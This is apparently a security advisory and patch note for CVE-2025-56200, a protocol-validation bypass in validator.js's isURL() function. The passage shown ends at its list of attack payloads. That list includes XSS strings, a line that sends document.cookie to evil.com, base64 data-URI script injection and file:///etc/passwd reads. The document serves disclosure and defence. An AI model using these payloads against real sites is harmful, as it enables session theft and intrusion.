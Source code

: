# CVE-2025-56200 Security Patch for validator.js

## Vulnerability Summary

**CVE ID:** CVE-2025-56200 (GHSA-9965-vmph-33xx)
**Severity:** Moderate (CVSS 6.1)
**Component:** isURL() function
**Affected File:** `/Users/laptopname/validator.js/src/lib/isURL.js`
**Vulnerable Line:** Line 86

### The Issue

The `isURL()` function uses `'://'` as a delimiter to parse protocols, while web browsers use `':'` as the delimiter according to RFC 3986. This discrepancy allows attackers to bypass protocol validation, potentially leading to XSS and open redirect attacks.

**Vulnerable Code (Line 86):**
```javascript
split = url.split('://');
```

**How It Fails:**
- URL: `javascript:alert(1)`
  - validator.js parsing: `split.length = 1` → No protocol detected (no `://`)
  - Browser parsing: Protocol is `javascript:` → Executes JavaScript
- URL: `data:text/html,<script>alert(1)</script>`
  - validator.js parsing: No protocol detected → Treated as hostname
  - Browser parsing: Protocol is `data:` → Renders HTML with XSS

### Attack Vectors

The vulnerability enables multiple attack vectors:

1. **XSS via javascript: protocol:**
   ```
   javascript:alert(document.cookie)
   javascript:fetch('https://evil.com?c='+document.cookie)
   ```

2. **XSS via data: URIs:**
   ```
   data:text/html,<script>alert(1)</script>
   data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
   ```

3. **Legacy XSS (IE):**
   ```
   vbscript:msgbox(1)
   ```

4. **File disclosure:**
   ```
   file:///etc/passwd
   file:///c:/windows/system.ini
   ```
